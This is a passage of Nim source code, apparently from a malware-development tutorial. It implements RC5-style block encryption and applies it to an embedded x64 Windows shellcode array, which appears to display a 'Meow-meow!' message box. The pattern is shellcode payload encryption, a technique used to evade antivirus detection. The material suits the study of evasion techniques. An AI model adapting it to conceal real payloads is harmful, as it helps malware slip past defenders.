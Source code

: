 ```nim
  for j in 0 ..< 12:
    A = rotateLeft(A xor B, B) + S[2]
    B = rotateLeft(B xor A, A) + S[3]
  inout[0] = A
  inout[1] = B

proc decrypt(S: array[26, uint32], inout: var array[2, uint32]) =
  var A = inout[0]
  var B = inout[1]
  for j in countdown(12, 1):
    B = rotateRight(B - S[3], A) xor A
    A = rotateRight(A - S[2], B) xor B
  B -= S[1]
  A -= S[0]
  inout[0] = A
  inout[1] = B

when isMainModule:
  var key: array[4, uint32] = [0x243F6A88'u32, 0x85A308D3'u32, 0x452821E6'u32, 0x38D01377'u32]
  var box: array[26, uint32]
  expandKey(key, box)

  var data: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let dataSize = data.len
  let paddedSize = ((dataSize + 7) and not 7)
  var paddedData = newSeq[byte](paddedSize)
  for i in 0..<data.len:
    paddedData[i] = data[i]

  var encrypted = newSeq[byte](paddedSize)
  var decrypted = newSeq[byte](paddedSize)

  for i in countup(0, paddedSize - 1, 8):
    var chunk: array[2, uint32]
    copyMem(addr chunk, addr paddedData[i], sizeof(chunk))
    encrypt(box, chunk)
    copyMem(addr encrypted[i], addr chunk, sizeof(chunk))
```